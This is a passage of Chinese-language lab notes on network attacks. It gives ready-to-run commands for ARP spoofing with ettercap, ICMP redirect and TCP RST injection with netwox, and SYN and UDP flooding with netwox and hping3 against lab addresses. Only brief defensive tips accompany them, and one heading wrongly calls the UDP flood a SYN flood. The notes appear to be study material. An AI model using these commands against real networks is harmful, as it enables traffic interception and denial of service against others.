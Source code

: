    > 原理：不断发送arp欺骗包，对目标的arp缓存表进行污染，目标ip发送到伪装ip的包会被攻击者截获

   1. 向局域网中某ip伪装某ip：ettercap -i eth0 -Tq -M arp:remote /欺骗的ip//   /伪装的ip//
      1. -i  网关
      2. -Tq  文本输出
   2. 监听某网卡传输来的信息：ettercap -Tq -i eth0
   3. 开启kali的转发模式，让目标可以正常上网：echo 1 > /proc/sys/net/ipv4/ip_forward
   4. 验证是否开启：cat /proc/sys/net/ipv4/ip_forward
   5. 查看自己的arp表：arp -a
   6. ARP欺骗后就能获取到由欺骗IP发往伪装ip的全部数据包，但是本机必须与被欺骗IP在同一局域网

3. ICMP路由重定向（伪装成网关）攻击

   > 在网络中发送ICMP重定向路径报文来实现攻击

   1. 查看路由表：route -C -n

   2. 靶机必须设置：echo 1 > /proc/sys/net/ipv4/conf/all/accept_redirects

      echo 1 > /proc/sys/net/ipv4/conf/eth0/accept_redirects

      echo 1 > /proc/sys/net/ipv4/conf/default/accept_redirect

   3. 并重启网络服务：/etc/init.d/networking restart

   4. 进行ICMP攻击：netwox 86 -g 192.168.23.134 -i 192.168.23.133

      1. -g  攻击者ip（要替换的网关ip）
      2. -i  靶机当前网关ip

4. TCP之RST攻击

   > 给正常的TCP连接的一方发送RST报文，造成其TCP连接中断

   1. 服务器在端口7777启动nc进程：nc -l -p 7777
   2. 客户端与服务器的7777端口的nc进程进行TCP连接：nc 192.168.23.132 7777
   3. 攻击者netwox 78 -i  192.168.23.133
   4. 结果：中断了客户端与服务器之间的TCP连接

5. TCP之SYN Flood攻击：

   > 通过大量的真实的TCP请求SYN报文，消耗目标主机的连接队列资源

   1. 查看80端口的状态：lsof -i :80或netstat -an |grep :80
   2. SYN泛洪攻击：netwox 76 -i 192.168.23.133 -p  80
   3. 防御方式：设置SYN RECV超时时限，或扩大连接数量限制

6. UDP之SYN Flood攻击

   >向目标主机发送大量不可靠的UDP包，占用对方计算资源

   1. 监听 eth0网卡的udp服务：tcpdump -i eth0 udp -n
   2. 发动udp泛洪攻击：hping3 --udp -p 53 192.168.23.133（ctrl+c结束）
   3. 使用随机源地址发送UDP泛洪攻击：hping3 --udp -p 53 --flood --rand-source 192.168.23.133
   4. 防御方式：设置防火墙，设置UDP的接收速率

7. DRDos反射：
